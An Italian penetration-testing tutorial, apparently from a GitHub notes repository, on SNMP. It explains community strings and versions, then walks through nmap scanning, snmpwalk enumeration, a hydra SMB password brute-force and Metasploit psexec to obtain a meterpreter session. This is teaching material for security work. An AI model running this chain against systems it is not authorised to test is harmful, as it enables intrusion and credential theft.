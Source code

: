 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
# SNMP

**SNMP (Simple Network Management Protocol)** è un protocollo di livello applicativo utilizzato per monitorare e gestire dispositivi di rete come router, switch, stampanti, server e altro. 
Permette agli amministratori di:
- interagire con i dispositivi,
- ricevere avvisi quando si verificano eventi rilevanti (trap),
- modificare parametri di configurazione,
- interrogare lo stato del sistema.

SNMP utilizza generalmente **UDP** per il trasporto e si basa su tre componenti principali:

- **SNMP Manager** → effettua richieste e riceve risposte dagli agent.
- **SNMP Agent** → è un software presente sui dispositivi che risponde alle richieste e invia trap (ovvero notifiche asincrone inviate quando accade un evento specifico, come il superamento di una soglia, la disconnessione di un'interfaccia, ecc.).
- **Management Information Base (MIB)** → struttura gerarchica dei dati disponibili tramite SNMP. Ogni voce della MIB ha un identificatore univoco, chiamato **OID (Object Identifier)**.

---

## Versioni di SNMP

- **SNMPv1** → la prima versione, usa **community string** come metodo di autenticazione. <br>
Le community string sono stringhe di testo in chiaro che fungono da password condivise tra manager e agent. <br>
Le più comuni sono `public` (solitamente per lettura) e `private` (per scrittura).
- **SNMPv2c** → introduce funzionalità migliorate (come i bulk transfer) ma mantiene lo stesso meccanismo di autenticazione di v1 (community string).
- **SNMPv3** → introduce **autenticazione basata su utente**, **integrità dei messaggi** e **crittografia**, rendendolo l'unica versione realmente sicura.

SNMP usa:
- **porta 161 UDP** per query (Get, GetNext, ecc.)
- **porta 162 UDP** per ricevere trap (notifiche SNMP).

---

## Fase 1 – Scansione del Servizio

Per verificare se SNMP è attivo:
```bash
nmap -sU -p161 <IP>
```

Per identificare le comunity strings:
```bash
nmap -sU -p161 --script snmp-brute <IP>
```
Il file di wordlist utilizzato da default è:
```
/usr/share/nmap/nselib/data/snmpcommunities.lst
```

---

## Fase 2 – Raccolta Informazioni con snmpwalk

Una volta trovata una community string valida, possiamo usarla per interrogare il dispositivo e raccogliere informazioni:

```bash
snmpwalk -v 1 -c <community_string> <IP>
```
- `-v 1` specifica la versione SNMP (in questo caso v 1) ottenuta tramite `nmap -sV`
- `-c` indica la community string da usare (es. `public`)

SNMPwalk esegue richieste **GET-NEXT** per recuperare interi blocchi di OID. Questo consente di:
- identificare nomi host, sistema operativo, interfacce di rete,
- estrarre tabella di routing, indirizzi IP, MIB di configurazione,
- ottenere informazioni sugli utenti e gruppi presenti,
- rilevare servizi attivi o applicazioni installate.

---

## Fase 3 – Raccolta Completa con Nmap

Per eseguire una scansione SNMP completa:
```bash
nmap -sU -p161 --script snmp-* <IP> > snmp_info
```
Questo comando userà tutti gli script NSE relativi a SNMP e salverà l'output nel file `snmp_info`. <br>
Visualizzando il contenuto del file, potremmo ottenere varie informazioni come tabelle di routing, interfacce di rete usate indirizzi IP e a volte anche dei nomi utenti. <br>

--- 

## Fase 4 - Bruteforce con hydra
Se dovessimo trovare dei nomi utenti, possiamo salvarli in un file per poteri utilizzare con hydra e scovare le relative password:
```bash
hydra -L utenti.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> smb
```

---

## Fase 5 - Accesso con PsExec di Metasploit
Dopo aver ottenuto le credenziali, é possibile usare psexec per poter ottenere una sessione meterpeter:
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUSER <username>
set SMBPASS <password>
exploit
```
cosí da ottenere una sessione meterpeter per poter interagire con il target. 

---
